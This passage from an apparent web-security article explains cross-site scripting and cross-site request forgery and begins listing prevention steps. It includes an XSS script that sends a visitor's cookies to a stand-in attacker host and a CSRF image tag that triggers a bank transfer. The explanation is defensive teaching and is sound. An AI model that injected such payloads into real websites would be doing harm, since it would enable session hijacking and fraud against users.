 Cross-Site Scripting (XSS) means that attackers can use scripts on web pages to steal session information from cookies or redirect users to "impersonation" sites.

Here’s how it works: A hacker injects a malicious script into a public form (such as a comment section). The website then displays the comment without sanitizing the content. Eventually, other users load the page and unknowingly run the attacker's script.

**XSS example:**

```
<script>document.location='http://malicious-site.com?cookie='+document.cookie;</script>
```

### Cross-Site Request Forgery (CSRF)

These requests manipulate website users into unwanted actions.

Cross-Site Request Forgeries (CSRFs) attacks happen when a malicious site tricks a user’s browser into making an unwanted request to another site where they're already authenticated into transferring funds, changing contact information, or sharing account details.

Here’s an example: A logged-in user visits a malicious website. Without realizing it, the user's browser submits a hidden request to their legitimate bank site. The action (such as transferring money) happens under the user’s logged-in session without their approval.

**CSRF example:**

```
<img src="http://bank.com/transfer?amount=1000&to=attacker_account">
```

### How to Prevent Script Injection Hacks

To stop injection and scripted attacks, you and your team need to be aware of how they happen (which you now are) and how to prevent them. This means you’ll need to proactively build security measures into the website's architecture.

These hacks thrive on technical oversight – like unsanitized input fields, insecure headers, and weak session validations.

#### 1\. Validate all user input to eliminate unsafe entries

One of the most common ways attackers exploit web applications is by injecting malicious code into unvalidated fields. Every input field, whether it’s for a name, local phone number, or comment, should be treated as a potential attack vector.

Always validate input both on the client side (for user experience) and the server side (for actual security).

For example, a “phone number” field should only accept digits, not special characters or scripts. Without strict validation, attackers can slip malicious code into your application that interacts directly with your database or browser DOM.

#### 2\. Use secure frameworks and ORMs to sanitize database queries

Manually writing SQL queries is risky, especially when those queries include user input. Instead, rely on trusted Object-Relational Mapping (ORM) tools like SQLAlchemy for Python, Hibernate for Java, or Eloquent for PHP.
